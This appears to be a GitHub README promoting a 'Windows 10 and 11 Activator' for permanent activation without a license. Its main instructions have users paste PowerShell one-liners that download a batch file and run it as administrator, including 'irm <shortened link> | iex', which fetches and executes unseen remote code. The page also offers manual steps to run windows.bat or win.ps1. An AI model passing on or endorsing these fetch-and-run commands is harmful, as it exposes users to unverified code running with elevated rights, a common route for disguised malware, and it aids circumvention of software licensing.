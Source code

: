 Easily activate Windows 10 and 11 with this simple, reliable tool. Achieve permanent activation with just a few straightforward steps, ensuring your system runs smoothly and efficiently.


Key Features:

Lifetime Activation: Permanently activate Windows 10 and 11.

Simple Process: Minimal steps – just run the provided .bat file for instant activation.

Hassle-Free: No complex setup or technical knowledge required.

How to Use:

Method 1: Use PowerShell

Open PowerShell (press Start and type "PowerShell").

Copy and paste the following command into PowerShell, then press Enter:

powershell

COPY AND PASTE THIS:

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

irm "https://raw.githubusercontent.com/betamod9/Windows-10-and-11-Activator/main/windows.bat" -OutFile "windows.bat"; Start-Process -FilePath "windows.bat" -Verb RunAs

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
OR SHORT CODE: 
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
irm https://dub.sh/activator | iex
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
Method 2: Manual Download

Download or copy the windows.bat file to your system.

Double-click the windows.bat file to run it.

Follow the on-screen instructions to complete the activation.

Enjoy a permanently activated Windows system in no time!

Method 3: Manual Download

Download or copy the win.ps1 file to your system.

Right-click the win.ps1 file and pres Run with PowerShell to run it.

Follow the on-screen instructions to complete the activation.

Enjoy a permanently activated Windows system in no time!



![U233334ntitled](https://github.com/user-attachments/assets/ce853d71-7d34-409c-a809-1a64508c14f3)
![121](https://github.com/user-attachments/assets/b898383e-433d-412a-bb63-fa6ae9553155)
